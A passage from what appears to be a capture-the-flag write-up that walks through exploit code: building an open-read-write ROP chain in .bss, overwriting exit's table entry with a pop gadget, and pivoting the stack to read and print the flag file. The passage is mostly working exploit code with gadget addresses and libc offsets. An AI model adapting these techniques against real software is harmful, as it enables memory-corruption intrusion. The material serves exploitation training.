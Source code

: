 ```Python
    useless_feedback()
```

### Executing the ROP chain !

Let's write the ROP chain to .bss first:
```Python
    #pre-emptively set up the rop chain
    #this isn't what we're going to write to the stack
    #what we are actually going to write to the stack is a stack pivot to this chain
    flagfileaddr = 0x404078
    actualflag = 0x04041c0
    poprdi = p64(0x000000000040143b) #pop rdi; ret
    poprsi = p64(libc_base + 0x0000000000027529) #pop rsi; ret
    poprdx = p64(libc_base + 0x00000000001626d6) #pop rdx; pop rbx; ret;
    ropchain = poprdi
    ropchain += p64(flagfileaddr) #rdi will contain the name
    ropchain += poprsi
    ropchain += p64(0x0)
    ropchain += p64(libc_base + 0x110cc0) #open call proper
    #there are no good mov [insert register], rax gadgets
    #I'll just assume the file descriptor is 3 lmao
    #now read from the flag file:
    ropchain += poprdi
    ropchain += p64(0x3) #rdi will contain the descriptor, which we're assuming is 3
    ropchain += poprsi
    ropchain += p64(actualflag) #rsi will contain the buffer we write the flag to
    ropchain += poprdx
    ropchain += p64(0x48) #48 bytes should be enough
    ropchain += p64(0x0) #filler
    ropchain += p64(libc_base + 0x110fa0) #actual call to read
    #now write our flag:
    ropchain += poprdi
    ropchain += p64(actualflag)
    ropchain += p64(0x401333) #jump to puts???
    ropchain += p64(0x401264) #jump back to main in case the exploit failed)
    #write the rop chain to .bss:
    write_chain(0x404090, ropchain)
```
The rop chain is a standard open-read-write rop chain.
Finally, let's overwrite `exit()` to point to an instruction that pops a register then returns:
```Python
    #now jump to our rop chain!
    useless_read()
    #overwrite to a pop one-gadget which will direct it to our rop chain on the stack :)
    write_int(0x404060, 0x40143b)
```
Next we'll write our stack pivot to the feedback buffer:
```Python
    #write a short pivot chain to get to our rop chain on .bss
    pivot = p64(libc_base + 0x0000000000032b5a) #pop rsp; ret
    pivot += p64(0x404090) 
    feedback(pivot)
```
Now the challenge will jump to our ROP chain and print the flag!
